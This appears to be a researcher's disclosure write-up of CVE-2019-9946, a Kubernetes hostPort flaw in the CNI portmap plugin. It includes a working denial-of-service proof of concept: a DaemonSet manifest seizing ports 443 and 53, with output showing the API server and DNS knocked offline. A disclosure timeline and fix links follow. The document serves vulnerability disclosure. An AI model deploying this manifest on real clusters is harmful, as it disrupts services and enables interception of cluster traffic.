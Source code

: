 # Kubernetes hostPort allow services traffic interception when using kubeproxy IPVS (CVE-2019-9946)

When I first discovered this bug, I opened an [issue #72522 on Kubernetes repo](https://github.com/kubernetes/kubernetes/issues/72522),
without thinking much about the security implications.

Fast forward 4 days later and some more testing,
I found out that using hostPort allowed to intercept not only LoadBalancer traffic as initially reported,
but any services traffic, so I reported it to security@kubernetes.io.

## POC

To clearly show the issue, I sent this trivial denial of service proof of concept:
```
# curl https://10.233.0.1:443/api -k
{
  "kind": "APIVersions",
  "versions": [
...


# kubectl apply -f - <<'EOF'
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: dosk8s-ds
spec:
  selector:
    matchLabels:
      app: dosk8s
  template:
    metadata:
      labels:
        app: dosk8s
    spec:
      containers:
      - name: pause
        image: k8s.gcr.io/pause
        ports:
        - name: dos443
          containerPort: 443
          hostPort: 443
        - name: dos53t
          containerPort: 53
          hostPort: 53
        - name: dos53u
          containerPort: 53
          hostPort: 53
          protocol: UDP
EOF


# curl https://10.233.0.1:443/api -k
curl: (7) Failed connect to 10.233.0.1:443; Connection refused


# nslookup google.com
nslookup: can't resolve '(null)': Name does not resolve
nslookup: can't resolve 'google.com': Try again
```

In the end the issue was in CNI (Container network interface) portmap plugin, that was inserting iptables rules instead of appending them, taking precedence other Kubernetes services rules.

## Timeline

* 2019-01-03: Initial public bug report.
* 2019-01-07: Initial private bug report to security@kubernetes.io.
* 2019-01-17: The networking team can reproduce the issue but they are still investigating.
* 2019-02-27: The networking team believe that the issue is in CNI only. CNI developers have proposed a fix that is being reviewed. I ask if there is already a CVE for this bug.
* 2019-03-19: The networking team is testing a new version of the CNI plugin. K8S security team can't issue a CVE for CNI, and CNI can't issue CVE for now, so WIP.
* 2019-03-25: CVE-2019-9946 has been reserved for this issue.
* 2019-03-28: Public diclosure.

## Links

* [Kubernetes security annoncement](https://discuss.kubernetes.io/t/announce-security-release-of-kubernetes-affecting-certain-network-configurations-with-cni-releases-1-11-9-1-12-7-1-13-5-and-1-14-0-cve-2019-9946/5713)
* [CNI pull request](https://github.com/containernetworking/plugins/pull/269)
* [Kubernetes pull request](https://github.com/kubernetes/kubernetes/pull/75455)
